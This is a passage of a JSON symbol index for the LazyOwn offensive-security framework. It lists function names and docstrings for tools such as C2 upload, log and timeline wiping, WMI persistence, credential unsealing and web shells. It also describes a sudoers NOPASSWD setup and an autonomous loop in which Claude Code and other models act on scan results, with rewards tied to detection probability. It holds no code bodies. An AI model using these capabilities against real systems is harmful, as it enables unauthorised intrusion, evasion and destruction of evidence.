_cmd)"}, {"kind": "function", "line": 5404, "name": "_gen_toast_clear", "signature": "def _gen_toast_clear(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5412, "name": "_gen_toctoc", "signature": "def _gen_toctoc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5420, "name": "_gen_tord", "signature": "def _gen_tord(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5428, "name": "_gen_trace", "signature": "def _gen_trace(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5436, "name": "_gen_transform", "signature": "def _gen_transform(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5444, "name": "_gen_trufflehog", "signature": "def _gen_trufflehog(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5452, "name": "_gen_tshark_analyze", "signature": "def _gen_tshark_analyze(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5460, "name": "_gen_ttp_matrix", "signature": "def _gen_ttp_matrix(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5468, "name": "_gen_ttp_rebuild", "signature": "def _gen_ttp_rebuild(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5476, "name": "_gen_ttp_show", "signature": "def _gen_ttp_show(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5484, "name": "_gen_tui_theme", "signature": "def _gen_tui_theme(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5492, "name": "_gen_unicode_WAFbypass", "signature": "def _gen_unicode_WAFbypass(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5500, "name": "_gen_unlock_target", "signature": "def _gen_unlock_target(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5508, "name": "_gen_unseal_credentials", "signature": "def _gen_unseal_credentials(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5516, "name": "_gen_unzip", "signature": "def _gen_unzip(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5524, "name": "_gen_upload_bypass", "signature": "def _gen_upload_bypass(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5532, "name": "_gen_upload_c2", "signature": "def _gen_upload_c2(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5540, "name": "_gen_upload_gofile", "signature": "def _gen_upload_gofile(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5548, "name": "_gen_urldecode", "signature": "def _gen_urldecode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5556, "name": "_gen_urlencode", "signature": "def _gen_urlencode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5564, "name": "_gen_use", "signature": "def _gen_use(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5572, "name": "_gen_username_anarchy", "signature": "def _gen_username_anarchy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5580, "name": "_gen_utf", "signature": "def _gen_utf(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5588, "name": "_gen_v", "signature": "def _gen_v(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5596, "name": "_gen_veil", "signature": "def _gen_veil(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5604, "name": "_gen_vpn", "signature": "def _gen_vpn(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5612, "name": "_gen_vscan", "signature": "def _gen_vscan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5620, "name": "_gen_vuln_list", "signature": "def _gen_vuln_list(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5628, "name": "_gen_vulns", "signature": "def _gen_vulns(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5636, "name": "_gen_waybackmachine", "signature": "def _gen_waybackmachine(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5644, "name": "_gen_weevely", "signature": "def _gen_weevely(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5652, "name": "_gen_weevelygen", "signature": "def _gen_weevelygen(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5660, "name": "_gen_wfuzz", "signature": "def _gen_wfuzz(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5668, "name": "_gen_whatweb", "signature": "def _gen_whatweb(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5676, "name": "_gen_whoami", "signature": "def _gen_whoami(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5684, "name": "_gen_wifipass", "signature": "def _gen_wifipass(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5692, "name": "_gen_winbase64payload", "signature": "def _gen_winbase64payload(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5700, "name": "_gen_windapsearch", "signature": "def _gen_windapsearch(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5708, "name": "_gen_windapsearchscrapeusers", "signature": "def _gen_windapsearchscrapeusers(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5716, "name": "_gen_winpeas", "signature": "def _gen_winpeas(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5724, "name": "_gen_wipe_free", "signature": "def _gen_wipe_free(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5732, "name": "_gen_wipe_logs", "signature": "def _gen_wipe_logs(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5740, "name": "_gen_wipe_timeline", "signature": "def _gen_wipe_timeline(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5748, "name": "_gen_wizard", "signature": "def _gen_wizard(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5756, "name": "_gen_wmi_lateral", "signature": "def _gen_wmi_lateral(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5764, "name": "_gen_wmi_persist", "signature": "def _gen_wmi_persist(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5772, "name": "_gen_wmi_scheduled_task", "signature": "def _gen_wmi_scheduled_task(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5780, "name": "_gen_wmiexec", "signature": "def _gen_wmiexec(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5788, "name": "_gen_wmiexecpro", "signature": "def _gen_wmiexecpro(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5796, "name": "_gen_wpscan", "signature": "def _gen_wpscan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5804, "name": "_gen_wrapper", "signature": "def _gen_wrapper(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5812, "name": "_gen_www", "signature": "def _gen_www(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5820, "name": "_gen_xss", "signature": "def _gen_xss(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5828, "name": "_gen_xsstrike", "signature": "def _gen_xsstrike(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5836, "name": "_gen_yara_scan", "signature": "def _gen_yara_scan(arguments, tool_name, _cmd)"}]}, {"doc": "Single helper behind every lazy optional import of the MCP server.  Each ``_ensure_*`` wrapper in ``lazyown_mcp`` used to repeat the same skeleton: return the cached flag when set, otherwise try the import, bind names on success, store False on failure. Centralising the skeleton here keeps one fail-closed policy (any import error disables the feature instead of crashing the server) while every wrapper only declares what to load.", "id": "skills/mcp_lazy.py", "kind": "module", "label": "mcp_lazy.py", "language": "py", "sha256": "9505b6fdc57271c7", "symbol_count": 1, "symbols": [{"doc": "Return the cached flag or run ``loader`` once to compute it.\n\nArgs:\n    namespace: Module globals holding the flag and bound names.\n    flag: Name of the availability flag inside ``namespace``.\n    loader: Receives ``namespace``; binds imported names into it\n        and returns True on success, False when it installed a\n        fallback stub instead.\n\nReturns:\n    True when the optional dependency is usable, False otherwise.\n    Any exception from ``loader`` fails closed to False.", "kind": "function", "line": 18, "name": "ensure_optional", "signature": "def ensure_optional(namespace, flag, loader)"}]}, {"doc": "LazyOwn MCP restart helper  Kills ALL lazyown_mcp instances (stdio + SSE) and relaunches the SSE daemon. After running this script: - The stdio server (lazyown) will be dead — Claude Code requires /mcp to reconnect. - The SSE daemon (lazyown-sse) will be running on http://127.0.0.1:PORT/sse  NOTE: The comment \"Claude Code reconnects automatically\" was WRONG. For stdio transport, reconnect is MANUAL via /mcp. For SSE transport (lazyown-sse), Claude Code reconnects automatically.  Usage: bash skills/mcp_restart.sh [PORT]", "id": "skills/mcp_restart.sh", "kind": "module", "label": "mcp_restart.sh", "language": "sh", "sha256": "f9138c70b3789343", "symbol_count": 0, "symbols": []}, {"doc": "Auto-generate MCP tool handlers from cli/command_index.json.  Reads the full command catalog, compares against existing handlers in lazyown_mcp.py, and writes a new skills/mcp_generated_tools.py that can be imported by lazyown_mcp.py to close the coverage gap.  Usage: python3 skills/mcp_tool_generator.py              # generate + verify python3 skills/mcp_tool_generator.py --check       # CI mode: verify only python3 skills/mcp_tool_generator.py --limit 50    # generate top N only", "id": "skills/mcp_tool_generator.py", "kind": "module", "label": "mcp_tool_generator.py", "language": "py", "sha256": "ca2ff59f4817cf59", "symbol_count": 9, "symbols": [{"kind": "function", "line": 29, "name": "load_command_index", "signature": "def load_command_index()"}, {"doc": "Return {command_name: summary} for all unique non-duplicate commands.\n\nStrips the 'do_' prefix from method names so 'do_lazynmap' becomes 'lazynmap'.", "kind": "function", "line": 34, "name": "extract_commands", "signature": "def extract_commands(index)"}, {"doc": "Parse lazyown_mcp.py for all defined MCP tool names.\n\nLooks at both @register_handler decorators and name= strings\ninside the list_tools() function return statement.", "kind": "function", "line": 55, "name": "extract_existing_handlers", "signature": "def extract_existing_handlers()"}, {"doc": "Truncate and clean a command summary for use as a tool description.", "kind": "function", "line": 72, "name": "sanitize_description", "signature": "def sanitize_description(summary, max_len)"}, {"doc": "Escape backslashes and quotes for triple-quoted docstrings.", "kind": "function", "line": 85, "name": "sanitize_docstring", "signature": "def sanitize_docstring(text)"}, {"doc": "Return the JSON inputSchema for a single-arg command wrapper tool.", "kind": "function", "line": 91, "name": "_build_tool_schema", "signature": "def _build_tool_schema(command_param_name)"}, {"doc": "Build the complete Python source for mcp_generated_tools.py.\n\nThe generated file exports:\n  - get_generated_tool_definitions() -> list[types.Tool]\n  - register_all_generated_handlers(reg_fn, make_fn, run_fn) -> int", "kind": "function", "line": 106, "name": "generate_module", "signature": "def generate_module(commands, existing_handlers, limit)"}, {"doc": "Compare indexed commands against existing MCP tool coverage.\n\nReturns (new, existing_match, missing_from_index) sets of tool names.", "kind": "function", "line": 203, "name": "verify_coverage", "signature": "def verify_coverage(commands, existing_handlers)"}, {"kind": "function", "line": 220, "name": "main", "signature": "def main()"}]}, {"doc": "LazyOwn Sessions Watcher ======================== Watchdog daemon over sessions/.  When new or modified files appear, it:  scan_*.nmap (nmap text output) → calls VulnBot (or local Ollama fallback) to generate sessions/plan.txt → injects a PLAN_READY objective into objectives.jsonl → emits PLAN_READY event to events.jsonl  scan_*.nmap.xml (nmap XML) → calls FactStore.ingest_xml() → emits SCAN_XML_READY event  sessions/<ip>/<port>/<tool>/*.txt  (pwntomate tool output) → calls FactStore.ingest_text() → emits TOOL_OUTPUT_READY event → injects a factual objective: \"Review <tool> output for <ip>:<port>\"  sessions/plan.txt  (VulnBot or manual plan) → emits PLAN_UPDATED event with first 500 chars as preview  This closes the OpenClaw-style loop: lazynmap → watcher → plan.txt → objective injected → Claude Code polls → reasons → acts → new output → watcher fires again  Usage (background daemon):", "id": "skills/sessions_watcher.py", "kind": "module", "label": "sessions_watcher.py", "language": "py", "sha256": "045f80c971a7f34c", "symbol_count": 18, "symbols": [{"kind": "function", "line": 123, "name": "_emit", "signature": "def _emit(event_type, severity, suggest, source)"}, {"kind": "function", "line": 141, "name": "_call_ollama", "signature": "def _call_ollama(prompt)"}, {"kind": "function", "line": 154, "name": "_generate_plan_from_nmap", "signature": "def _generate_plan_from_nmap(nmap_path)"}, {"kind": "function", "line": 175, "name": "_minimal_plan_from_nmap", "signature": "def _minimal_plan_from_nmap(content)"}, {"kind": "function", "line": 204, "name": "_handle_nmap_txt", "signature": "def _handle_nmap_txt(path)"}, {"kind": "function", "line": 229, "name": "_handle_nmap_xml", "signature": "def _handle_nmap_xml(path)"}, {"kind": "function", "line": 257, "name": "_handle_tool_output", "signature": "def _handle_tool_output(path)"}, {"kind": "function", "line": 318, "name": "_handle_plan_updated", "signature": "def _handle_plan_updated(path)"}, {"kind": "function", "line": 331, "name": "_extract_target_from_filename", "signature": "def _extract_target_from_filename(name)"}, {"kind": "function", "line": 346, "name": "_dispatch", "signature": "def _dispatch(path)"}, {"kind": "function", "line": 388, "name": "_run_watchdog", "signature": "def _run_watchdog()"}, {"kind": "function", "line": 402, "name": "_run_poll_loop", "signature": "def _run_poll_loop()"}, {"kind": "function", "line": 430, "name": "main", "signature": "def main()"}, {"kind": "class", "line": 375, "name": "_Handler", "signature": "class _Handler(FileSystemEventHandler)"}, {"kind": "function", "line": 406, "name": "_scan", "signature": "def _scan()"}, {"kind": "function", "line": 96, "name": "_append_event", "signature": "def _append_event(ev)"}, {"kind": "method", "line": 376, "name": "on_created", "signature": "def on_created(self, event)"}, {"kind": "method", "line": 380, "name": "on_modified", "signature": "def on_modified(self, event)"}]}, {"doc": "============================================================================= LazyOwn MCP — One-time system setup Configures sudoers NOPASSWD and Linux capabilities so LazyOwn tools can run without interactive password prompts (required for MCP / non-TTY contexts).  Usage:  bash skills/setup.sh  Safe to re-run — all operations are idempotent. Supported: Debian/Ubuntu/Kali, Arch, Fedora/RHEL, macOS (capabilities skipped) =============================================================================", "id": "skills/setup.sh", "kind": "module", "label": "setup.sh", "language": "sh", "sha256": "23e22fba5b0fc00c", "symbol_count": 5, "symbols": [{"kind": "function", "line": 15, "name": "info"}, {"kind": "function", "line": 16, "name": "warn"}, {"kind": "function", "line": 17, "name": "die"}, {"doc": "Collect paths that exist on this system", "kind": "function", "line": 61, "name": "paths_for_sudo"}, {"kind": "function", "line": 92, "name": "add_nopasswd"}]}, {"doc": "skills/swan_agent.py — LazyOwn SWAN Agent ========================================== Scalable Weighted Adaptive Network agent coordinator.  SWAN unifies the Mixture-of-Experts router, the RL trainer, and the existing Groq/Ollama agent infrastructure (GroqAgentPool + LLMBridge) into a single self-improving multi-model execution layer.  Properties ---------- Scalable   — new expert models added to moe_router._DEFAULT_EXPERTS list only Weighted   — each expert's routing probability is weighted by RL-learned Q-values and EMA performance scores from completed engagements Adaptive   — weights update automatically after every task execution via Q-learning Network    — ensemble mode runs multiple experts in parallel and synthesizes results  Architecture ------------  operator prompt / autonomous loop | SwanOrchestrator.run() /          \\\\ route()               ensemble() |                      | best expert           top-N experts |               (parallel threads) DroneAgent / LLMBridge    |", "id": "skills/swan_agent.py", "kind": "module", "label": "swan_agent.py", "language": "py", "sha256": "2f684e0827aa0af0", "symbol_count": 44, "symbols": [{"kind": "function", "line": 106, "name": "_import_router", "signature": "def _import_router()"}, {"kind": "function", "line": 112, "name": "_import_trainer", "signature": "def _import_trainer()"}, {"kind": "function", "line": 118, "name": "_import_detection_oracle", "signature": "def _import_detection_oracle()"}, {"kind": "function", "line": 127, "name": "_import_policy", "signature": "def _import_policy()"}, {"doc": "Result from a single-expert SWAN execution.", "kind": "class", "line": 146, "name": "SwanResult", "signature": "class SwanResult"}, {"doc": "One expert's contribution to an ensemble.", "kind": "class", "line": 172, "name": "ExpertVote", "signature": "class ExpertVote"}, {"doc": "Aggregated result from multiple experts.", "kind": "class", "line": 183, "name": "EnsembleResult", "signature": "class EnsembleResult"}, {"doc": "Contract for combining multiple expert outputs into one synthesis.", "kind": "class", "line": 205, "name": "IResultAggregator", "signature": "class IResultAggregator(ABC)"}, {"doc": "Top-level SWAN orchestrator contract.", "kind": "class", "line": 222, "name": "ISwanOrchestrator", "signature": "class ISwanOrchestrator(ABC)"}, {"doc": "Aggregates expert outputs by building a weighted synthesis prompt and\ninvoking the highest-weight expert as the synthesizer.\n\nWhen only one expert succeeded, returns its output directly.\nWhen multiple experts succeeded, prompts the synthesizer to combine them.\n\nConsensus confidence is approximated as the fraction of experts that\ncompleted successfully (not failed or timed out).", "kind": "class", "line": 252, "name": "WeightedTextAggregator", "signature": "class WeightedTextAggregator(IResultAggregator)"}, {"doc": "Runs a single expert (backend + model) for a given goal.\n\nUses the existing GroqAgentPool / LLMBridge infrastructure.\nSupports both groq and ollama backends.", "kind": "class", "line": 332, "name": "ExpertExecutor", "signature": "class ExpertExecutor"}, {"doc": "Evaluates the outcome of an expert execution:\n- Determines reward via the policy engine reward table.\n- Queries the detection oracle for detection probability.\n\nFails gracefully when optional modules are unavailable.", "kind": "class", "line": 464, "name": "OutcomeEvaluator", "signature": "class OutcomeEvaluator"}, {"doc": "Scalable Weighted Adaptive Network orchestrator.\n\nCoordinates MoERouter, RLTrainer, ExpertExecutor, OutcomeEvaluator,\nand EnsembleAggregator into a unified self-improving execution layer.\n\nAfter each execution:\n  1. Evaluates the outcome (reward + detection probability).\n  2. Updates the MoE router's performance store.\n  3. Updates the RL trainer's Q-values.\n  4. Stores a lesson in hive memory (if available).\n\nSingle Responsibility: orchestration only — delegates to specialists.\nDependency Inversion: all collaborators injected via constructor.", "kind": "class", "line": 555, "name": "SwanOrchestrator", "signature": "class SwanOrchestrator(ISwanOrchestrator)"}, {"doc": "Route and execute a task with the best MoE+RL-selected expert.\nReturns the expert's output as a string.", "kind": "function", "line": 945, "name": "mcp_swan_run", "signature": "def mcp_swan_run(task_type, goal, phase)"}, {"doc": "Run top-N experts in parallel and return a synthesized result.\nHigher confidence = more expert agreement.", "kind": "function", "line": 968, "name": "mcp_swan_ensemble", "signature": "def mcp_swan_ensemble(task_type, goal, n_experts, phase)"}, {"doc": "Return SWAN system status: expert weights, RL epsilon, performance.", "kind": "function", "line": 996, "name": "mcp_swan_status", "signature": "def mcp_swan_status()"}, {"doc": "Show which expert would be selected for a task without executing.", "kind": "function", "line": 1003, "name": "mcp_swan_route", "signature": "def mcp_swan_route(task_type, goal)"}, {"doc": "Return (or create) the module-level singleton SwanOrchestrator.", "kind": "function", "line": 1039, "name": "get_swan", "signature": "def get_swan(api_key)"}, {"kind": "method", "line": 167, "name": "is_success", "signature": "def is_success(self)"}, {"doc": "Return (synthesis_text, consensus_confidence).\n\nconsensus_confidence is in [0.0, 1.0] — higher means experts agree more.", "kind": "method", "line": 209, "name": "aggregate", "signature": "def aggregate(self, task_type, goal, votes)"}, {"doc": "Execute with the best single expert and return result.", "kind": "method", "line": 226, "name": "run", "signature": "def run(self, task_type, goal, engagement_phase, timeout)"}, {"doc": "Execute with top-N experts in parallel and synthesize results.", "kind": "method", "line": 236, "name": "ensemble_run", "signature": "def ensemble_run(self, task_type, goal, n_experts, engagement_phase, timeout)"}, {"kind": "method", "line": 264, "name": "aggregate", "signature": "def aggregate(self, task_type, goal, votes)"}, {"kind": "method", "line": 284, "name": "_build_synthesis", "signature": "def _build_synthesis(task_type, goal, experts)"}, {"doc": "Run the expert and return a SwanResult.", "kind": "method", "line": 351, "name": "execute", "signature": "def execute(self, expert_id, backend, model, goal, task_type, timeout, api_key)"}, {"kind": "method", "line": 394, "name": "_invoke", "signature": "def _invoke(self, backend, model, goal, task_type, api_key, timeout)"}, {"kind": "method", "line": 417, "name": "_tools_for_task", "signature": "def _tools_for_task(task_type)"}, {"kind": "method", "line": 452, "name": "_load_payload_key", "signature": "def _load_payload_key()"}, {"doc": "Return (reward, detection_prob).\n\nreward:         scalar reward for RL update\ndetection_prob: detection probability from oracle", "kind": "method", "line": 479, "name": "evaluate", "signature": "def evaluate(self, result, task_type)"}, {"kind": "method", "line": 508, "name": "_base_reward", "signature": "def _base_reward(self, status, task_type)"}, {"doc": "Boost reward when output contains high-value security findings.\n\nArgs:\n    output:      Expert's raw output text.\n    base_reward: Reward computed from status + task_type.\n\nReturns:\n    Boosted reward, always >= base_reward.", "kind": "method", "line": 516, "name": "_content_boost", "signature": "def _content_boost(output, base_reward)"}, {"kind": "method", "line": 540, "name": "_detection_prob", "signature": "def _detection_prob(goal, task_type)"}, {"kind": "method", "line": 572, "name": "__init__", "signature": "def __init__(self, executor, evaluator, aggregator, api_key)"}, {"doc": "Execute the task with the best single expert selected by the MoE+RL router.\n\n1. Encodes current state for RL.\n2. Retrieves expert candidates from MoE router.\n3. Selects expert via RL epsilon-greedy policy.\n4. Executes the expert.\n5. Evaluates outcome and updates RL + performance store.\n6. Returns SwanResult.", "kind": "method", "line": 592, "name": "run", "signature": "def run(self, task_type, goal, engagement_phase, timeout)"}, {"doc": "Execute with top-N experts in parallel and synthesize results.\n\nAll experts receive the same goal concurrently. The aggregator then\nproduces a synthesis combining their outputs with confidence weighting.", "kind": "method", "line": 680, "name": "ensemble_run", "signature": "def ensemble_run(self, task_type, goal, n_experts, engagement_phase, timeout)"}, {"doc": "Return a diagnostic snapshot of the SWAN system.", "kind": "method", "line": 763, "name": "status", "signature": "def status(self)"}, {"kind": "method", "line": 778, "name": "_parallel_execute", "signature": "def _parallel_execute(self, experts, goal, task_type, timeout)"}, {"doc": "Update MoE performance store, RL Q-table, and hive memory.", "kind": "method", "line": 827, "name": "_post_execution_update", "signature": "def _post_execution_update(self, expert_id, task_type, reward, detection_prob, state_key, next_state, candidate_ids, result)"}, {"kind": "method", "line": 860, "name": "_store_to_hive", "signature": "def _store_to_hive(self, result, reward, detection_prob)"}, {"doc": "Simple kill-chain progression for next-state encoding.", "kind": "method", "line": 893, "name": "_next_task_type", "signature": "def _next_task_type(task_type)"}, {"kind": "method", "line": 908, "name": "_get_router", "signature": "def _get_router(self)"}, {"kind": "method", "line": 914, "name": "_get_trainer", "signature": "def _get_trainer(self)"}, {"kind": "method", "line": 919, "name": "_get_hive_memory", "signature": "def _get_hive_memory(self)"}, {"kind": "method", "line": 930, "name": "_load_key", "signature": "def _load_key()"}]}, {"id": "skills/tests/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "fd2ae4af0fd15932", "symbol_count": 0, "symbols": []}, {"doc": "skills/tests/test_autonomous_daemon.py — Tests for autonomous_daemon.py (SOLID refactoring)  All tests use tmp_path or tempfile.TemporaryDirectory for isolation. No real subprocess calls (mock _run_lazyown). No external API calls.", "id": "skills/tests/test_autonomous_daemon.py", "kind": "module", "label": "test_autonomous_daemon.py", "language": "py", "sha256": "36d6e2acfc7a9a07", "symbol_count": 88, "symbols": [{"doc": "Context manager that redirects all file paths to tmp_path.", "kind": "function", "line": 32, "name": "_patch_paths", "signature": "def _patch_paths(tmp_path)"}, {"kind": "function", "line": 49, "name": "_stop_patchers", "signature": "def _stop_patchers(patchers)"}, {"doc": "Tests for PTYCommandRunner.", "kind": "class", "line": 59, "name": "TestPTYCommandRunner", "signature": "class TestPTYCommandRunner"}, {"doc": "Tests for MCPCommandRunner.", "kind": "class", "line": 88, "name": "TestMCPCommandRunner", "signature": "class TestMCPCommandRunner"}, {"doc": "Tests for CommandRunnerChain (Chain of Responsibility).", "kind": "class", "line": 134, "name": "TestCommandRunnerChain", "signature": "class TestCommandRunnerChain"}, {"doc": "Tests for FallbackSelector — always returns a CommandDecision.", "kind": "class", "line": 205, "name": "TestFallbackSelector", "signature": "class TestFallbackSelector"}, {"doc": "Tests for ParquetSelector.", "kind": "class", "line": 248, "name": "TestParquetSelector", "signature": "class TestParquetSelector"}, {"doc": "Tests for CascadeStrategy.", "kind": "class", "line": 296, "name": "TestCascadeStrategy", "signature": "class TestCascadeStrategy"}, {"doc": "Tests for _inject_to_tasks_json.", "kind": "class", "line": 360, "name": "TestInjectToTasksJson", "signature": "class TestInjectToTasksJson"}, {"doc": "Tests for _update_task_status.", "kind": "class", "line": 437, "name": "TestUpdateTaskStatus", "signature": "class TestUpdateTaskStatus"}, {"doc": "Tests for _emit.", "kind": "class", "line": 486, "name": "TestEmitEvent", "signature": "class TestEmitEvent"}, {"doc": "Tests for mcp_autonomous_inject.", "kind": "class", "line": 537, "name": "TestMCPAutonomousInject", "signature": "class TestMCPAutonomousInject"}, {"doc": "Tests for mcp_autonomous_status.", "kind": "class", "line": 610, "name": "TestMCPAutonomousStatus", "signature": "class TestMCPAutonomousStatus"}, {"doc": "Unit tests for objective_loop logic with ObjectiveStore fully mocked.\nVerifies that _run_objective is called, complete() is called,\nand task status is updated to Done.", "kind": "class", "line": 666, "name": "TestObjectiveLoopUnit", "signature": "class TestObjectiveLoopUnit"}, {"doc": "PTYCommandRunner can be instantiated.", "kind": "method", "line": 62, "name": "test_instantiation", "signature": "def test_instantiation(self)"}, {"doc": "name property returns 'pty'.", "kind": "method", "line": 69, "name": "test_name_property", "signature": "def test_name_property(self)"}, {"doc": "PTYCommandRunner is a subclass of ICommandRunner.", "kind": "method", "line": 76, "name": "test_implements_icommand_runner", "signature": "def test_implements_icommand_runner(self)"}, {"doc": "MCPCommandRunner can be instantiated.", "kind": "method", "line": 91, "name": "test_instantiation", "signature": "def test_instantiation(self)"}, {"doc": "name property returns 'mcp'.", "kind": "method", "line": 98, "name": "test_name_property", "signature": "def test_name_property(self)"}, {"doc": "run() raises ImportError when lazyown_mcp is not importable.", "kind": "method", "line": 105, "name": "test_raises_when_import_fails", "signature": "def test_raises_when_import_fails(self)"}, {"doc": "run() delegates to _run_lazyown_command when import succeeds.", "kind": "method", "line": 114, "name": "test_delegates_to_mcp_when_available", "signature": "def test_delegates_to_mcp_when_available(self)"}, {"kind": "method", "line": 137, "name": "_make_runner", "signature": "def _make_runner(self, name, result, raises)"}, {"doc": "Chain returns result from first runner when it succeeds.", "kind": "method", "line": 152, "name": "test_uses_first_runner_when_successful", "signature": "def test_uses_first_runner_when_successful(self)"}, {"doc": "Chain uses second runner when first raises.", "kind": "method", "line": 162, "name": "test_falls_back_to_second_on_exception", "signature": "def test_falls_back_to_second_on_exception(self)"}, {"doc": "Chain raises RuntimeError when all runners fail.", "kind": "method", "line": 172, "name": "test_raises_when_all_fail", "signature": "def test_raises_when_all_fail(self)"}, {"doc": "name property lists all runner names.", "kind": "method", "line": 182, "name": "test_name_reflects_all_runners", "signature": "def test_name_reflects_all_runners(self)"}, {"doc": "Instantiation with empty list raises ValueError.", "kind": "method", "line": 192, "name": "test_requires_at_least_one_runner", "signature": "def test_requires_at_least_one_runner(self)"}, {"doc": "select() never returns None.", "kind": "method", "line": 208, "name": "test_always_returns_decision", "signature": "def test_always_returns_decision(self)"}, {"doc": "select() returns a CommandDecision instance.", "kind": "method", "line": 216, "name": "test_returns_command_decision_type", "signature": "def test_returns_command_decision_type(self)"}, {"doc": "source field is 'fallback'.", "kind": "method", "line": 225, "name": "test_source_is_fallback", "signature": "def test_source_is_fallback(self)"}, {"doc": "Even an unknown phase returns a CommandDecision.", "kind": "method", "line": 233, "name": "test_unknown_phase_returns_decision", "signature": "def test_unknown_phase_returns_decision(self)"}, {"doc": "When pdb is None, select() returns None.", "kind": "method", "line": 251, "name": "test_returns_none_when_pdb_unavailable", "signature": "def test_returns_none_when_pdb_unavailable(self)"}, {"doc": "When pdb returns session rows, select() returns a CommandDecision.", "kind": "method", "line": 259, "name": "test_returns_candidate_when_pdb_has_history", "signature": "def test_returns_candidate_when_pdb_has_history(self)"}, {"doc": "Commands that have hit the fail threshold are skipped.", "kind": "method", "line": 275, "name": "test_respects_fail_counts", "signature": "def test_respects_fail_counts(self)"}, {"doc": "Build a mock ICommandSelector that returns `returns` from select().", "kind": "method", "line": 299, "name": "_make_selector", "signature": "def _make_selector(self, returns)"}, {"doc": "CascadeStrategy returns the first selector that gives a result.", "kind": "method", "line": 309, "name": "test_returns_first_non_none_result", "signature": "def test_returns_first_non_none_result(self)"}, {"doc": "CascadeStrategy uses FallbackSelector when all others return None.", "kind": "method", "line": 325, "name": "test_uses_fallback_when_all_none", "signature": "def test_uses_fallback_when_all_none(self)"}, {"doc": "CascadeStrategy passes the context dict to selectors.", "kind": "method", "line": 337, "name": "test_passes_context_to_selectors", "signature": "def test_passes_context_to_selectors(self)"}, {"kind": "method", "line": 363, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 369, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"doc": "Creates tasks.json when it does not exist.", "kind": "method", "line": 373, "name": "test_creates_file_if_missing", "signature": "def test_creates_file_if_missing(self)"}, {"doc": "Each call appends a new task to tasks.json.", "kind": "method", "line": 382, "name": "test_appends_new_task", "signature": "def test_appends_new_task(self)"}, {"doc": "Injected task has all required keys: id, title, description, operator, status.", "kind": "method", "line": 394, "name": "test_correct_schema", "signature": "def test_correct_schema(self)"}, {"doc": "Return value is the integer id assigned to the new task.", "kind": "method", "line": 412, "name": "test_returns_assigned_id", "signature": "def test_returns_assigned_id(self)"}, {"doc": "Recovers gracefully when tasks.json contains invalid JSON.", "kind": "method", "line": 421, "name": "test_handles_existing_invalid_json", "signature": "def test_handles_existing_invalid_json(self)"}, {"kind": "method", "line": 440, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 446, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"kind": "method", "line": 450, "name": "_write_tasks", "signature": "def _write_tasks(self, tasks)"}, {"doc": "_update_task_status changes the status of a matching task.", "kind": "method", "line": 455, "name": "test_updates_existing_task", "signature": "def test_updates_existing_task(self)"}, {"doc": "_update_task_status returns False when title not found.", "kind": "method", "line": 465, "name": "test_ignores_missing_title", "signature": "def test_ignores_missing_title(self)"}, {"doc": "_update_task_status returns False when tasks.json does not exist.", "kind": "method", "line": 473, "name": "test_returns_false_when_file_missing", "signature": "def test_returns_false_when_file_missing(self)"}, {"kind": "method", "line": 489, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 495, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"doc": "_emit writes a valid JSON object to EVENTS_FILE.", "kind": "method", "line": 499, "name": "test_writes_valid_json_line", "signature": "def test_writes_valid_json_line(self)"}, {"doc": "Each emitted event has id, ts, type, severity, payload.", "kind": "method", "line": 511, "name": "test_event_has_required_fields", "signature": "def test_event_has_required_fields(self)"}, {"doc": "Multiple 